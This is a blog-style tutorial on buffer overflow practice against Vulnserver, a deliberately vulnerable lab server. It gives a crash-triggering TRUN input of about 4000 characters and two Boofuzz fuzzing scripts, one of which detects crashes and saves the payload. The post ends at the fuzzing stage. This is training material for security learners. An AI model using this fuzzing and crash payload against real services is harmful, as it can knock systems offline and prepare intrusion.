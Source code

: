 ```yaml
---
title: Basic buffer overflow
author: Stipe Marinovic
date: 2020-04-30 00:34:00 +0800
categories: [Blogging, Tutorial]
tags: [pentest, ctp, bof]
toc: true
---
```


## TLDR; ##

* No bad chars
* Buffer is approx 4000 chars
* Use "TRUN ." + 4000 * "\x41" to trigger it

# Introduction to buffer overflow #

.... to do ....
Vulnserver is great resource for practicing buffer overflow.  
Source code can be found on: https://github.com/stephenbradshaw/vulnserver.  

## Fuzzing ##

To detect buffer overflow vulnerability, first we need to find a way to crash the application causing segmentation fault. There are many fuzzers which can be used, but most popular ones are Spike and Boofuzz with Spike being not developed any more and Boofuzz being actively developed.

### Boofuzz skeleton ###

```
#!/usr/bin/python
import sys
from boofuzz import *

host = '192.168.0.31'      # Server's IP address
port = 9999                # Port on which application is listening

def main():

   session = Session(target = Target(connection = SocketConnection(host, port, proto='tcp')))

   s_initialize("TRUN command")           # session name
   s_string("TRUN", fuzzable = True)      # command name defined as string which should be fuzzed
   s_delim(" ", fuzzable = True)          # delimiter (space) which should be fuzzed
   s_string("TEST", fuzzable = True)      # command parameter defined as string which should be fuzzed

   session.connect(s_get("TRUN command"))
   session.fuzz()

if __name__ == "__main__":
    main()
 
```

Fuzzing can take a long time. To avoid looking at debugger and stoping fuzzer, we can extend script by adding receive_fuzzer function and post_test_case_callbacks=[receive_banner] argument to Session function call.  
Function receive_banner tries to get data from socket, and if no data is received it indicates that application is crashed and prints payload length and writes paylod to a file.

```
#!/usr/bin/python
import sys
from boofuzz import *

host = '192.168.0.31'      # Server's IP address
port = 9999                # Port on which application is listening
temp = " "                 # Global varialbe to store last sent payload.

# Function receive_banner is used to receive data from socket and detect crash when no resposne is detected
def receive_banner(target, fuzz_data_logger, session, sock):
   global temp 
   data=sock.recv(20000)   # Try to recieve data from socket and if banner is not detected report crash
   if not "Welcome to Vulnerable Server! Enter HELP for help." in data:
      print "\n######################################################\n"
      print "[+] No banner received - application may be crashed"
      print "[+] Payload length: " + str (len(temp))
      print "[+] Payload saved in crash_report.txt"
      print "[+] Fuzzing ended"
      print "\n######################################################\n"
      f = open("crash_report.txt", "w")
      f.write(temp)  # Write payload from temp global variable. Session.last_send containes next sent payload and not the one that crashed the application.
      f.close()
      sys.exit(-1)
   else:
      temp=session.last_send  # If banner is receviced from socket - store last sent payload into temp variable  

def main():

   session = Session(post_test_case_callbacks=[receive_banner], target = Target(connection = SocketConnection(host, port, proto='tcp')))

   s_initialize("TRUN command")
   s_string("TRUN", fuzzable = True)
   s_delim(" ", fuzzable = True)
   s_string("TEST", fuzzable = True)

   session.connect(s_get("TRUN command"))
   session.fuzz()

if __name__ == "__main__":
    main()
 
```
